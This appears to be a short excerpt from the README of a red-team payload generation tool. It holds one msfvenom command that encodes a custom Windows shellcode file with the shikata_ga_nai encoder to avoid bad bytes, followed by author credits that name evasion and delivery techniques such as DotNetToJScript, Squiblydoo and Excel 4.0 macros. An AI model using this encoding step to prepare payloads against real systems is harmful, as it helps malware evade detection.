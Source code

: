 ```
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
```

Author and Credits
==================
Author: Dominic Chell, MDSec ActiveBreach [@domchell](https://twitter.com/domchell) and [@mdseclabs](https://twitter.com/mdseclabs)

Credits:
- [@tiraniddo](https://twitter.com/tiraniddo): James Forshaw for DotNetToJScript
- [@Arno0x0x](https://twitter.com/Arno0x0x): for EmbedInHTML
- [@buffaloverflow](https://twitter.com/buffaloverflow): Rich Warren for Demiguise
- [@arvanaghi](https://twitter.com/arvanaghi) and [@ChrisTruncer](https://twitter.com/ChrisTruncer): Brandon Arvanaghi and Chris Truncer for CheckPlease
- [@subTee](https://twitter.com/subtee): Documentation for Squiblydoo and Squiblytwo techniques
- [@StanHacked](https://twitter.com/stanhacked): Excel 4.0 technique and code examples
